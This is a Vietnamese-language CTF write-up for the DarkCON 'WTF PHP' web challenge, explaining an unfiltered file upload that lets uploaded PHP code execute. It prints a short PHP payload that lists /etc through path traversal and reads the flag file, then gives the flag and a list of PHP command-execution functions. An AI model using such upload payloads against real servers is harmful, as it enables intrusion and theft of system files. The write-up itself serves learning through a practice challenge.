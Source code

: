 ```yaml
---
layout: post
title:  "[DarkCON CTF] WTF PHP"
description: Write-up Web Exploitation DarkCON CTF
tags: writeup
---
```

# Web Vulnerability: File upload

Đề bài:

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-1.png)  

Bắt tay vào xem thử như nào thôi

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-2.png)  
Vừa nhìn vào thì đầu mình đã nhảy số rằng bài này sẽ đi khai thác lỗ hổng `File upload`. Vẫn như thói quen thì ban đầu mình view source của web lên và phát hiện được author đã comment code bên trong:  

![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-3.png)  
Code cũng khá là đơn giản ban đầu web sẽ cho upfile bất kì không hề filter :D và file bắt buộc phải nhỏ hơn 1048576B. Tiếp đó nếu upload thành công thì file sẽ tạo ra link và move đến dir `/upload/[random name file], ngược lại xuất ra lỗi

Như vậy với đề bài trên mục tiêu của ta sẽ đi đến folder /etc và ở đây sẽ có file flag.txt.  
Mình có thử upload một file hình và chèn vào đó là code php `echo "hello" và vẫn upload bình thường và code cũng được execute luôn. 
![image](/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-4.png)  
Đến đây thì mọi việc dễ dàng hơn rồi! Tiếp đó mình dùng hàm scandir để đọc hết các folder trên server vào cat flag và đây là code của mình:  

```
<?php
	$dir    = '../../../../etc';
	$files = scandir($dir);
	print_r($files);
	print(file_get_contents('../../../../etc/f1@g.txt'));
?>
//flag: darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}
```
Thành quả  
![image](https://github.com/nguyenngocquang700/nguyenngocquang700.github.io/blob/master/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-5.png) 
Bài này là bài khá dễ, file được upload lên server mà không hề filter format file nên rất dễ thực thi code và exploit.  
Qua bài trên mình cũng tìm ra được một số hàm có thể thực thi code php mà mình cần nhớ đó là:  
```
eval();

assert();

system();

exec();

shell_exec();

passthru();

escapeshellcmd();

pcntl_exec();

```
Chán đời, bài dễ vl mà éo chịu làm, tui bùn lắm á mng :)
